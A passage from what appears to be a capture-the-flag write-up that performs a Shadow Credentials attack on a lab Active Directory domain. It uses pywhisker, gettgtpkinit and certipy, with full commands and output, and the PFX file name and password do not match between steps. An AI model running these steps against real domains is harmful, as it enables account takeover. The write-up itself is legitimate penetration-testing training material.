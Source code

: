 We can now perform a `ShadowCredentials` attack, which is possible to add “Key Credentials” to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform Kerberos authentication as that account using PKINIT.

#### Impacket error

Here I've stumbled upon an error which I had seen in many other tools that used the `ldap3` library, the `unsupported hash type MD4`

```bash
pywhisker -d "$DOMAIN" -u "ryan" -p "<REDACTED>" --target "ca_svc" --action "add"

[!] unsupported hash type MD4
```

From this post [ldap3/issues](https://github.com/cannatag/ldap3/issues/1051), I've found that the workaround was to install the `pycryptodome` (or add this to the `requirements.txt` file). After installing this package, the command ran without problems

```bash
pywhisker -d "$DOMAIN" -u "ryan" -p "<REDACTED>" --target "ca_svc" --action "add"

[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 330d8f4f-de77-cbbb-adac-81a9a2651be1
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: Ktbabwrq.pfx
[+] PFX exportiert nach: Ktbabwrq.pfx
[i] Passwort für PFX: B9gwqRARVxFWItyHJtCB
[+] Saved PFX (#PKCS12) certificate & key at path: Ktbabwrq.pfx
[*] Must be used with password: B9gwqRARVxFWItyHJtCB
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

gettgtpkinit -cert-pfx TanfQnvE.pfx  -pfx-pass KqH6jXJumKaPZvc9kgRC "$DOMAIN/ca_svc" ca_svc.ccache

2025-05-26 00:58:29,813 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-26 00:58:29,835 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-26 00:58:46,416 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-26 00:58:46,417 minikerberos INFO     cc7040891381fbdb8c5870aae76b1628d8baf97fa95f95432cf7de042ae6200c
INFO:minikerberos:cc7040891381fbdb8c5870aae76b1628d8baf97fa95f95432cf7de042ae6200c
2025-05-26 00:58:46,426 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

And we can authenticate using the generated `TGT`. Another tool (and even faster because it already tries to get the `TGT` ) is using the `certipy shadow auto`

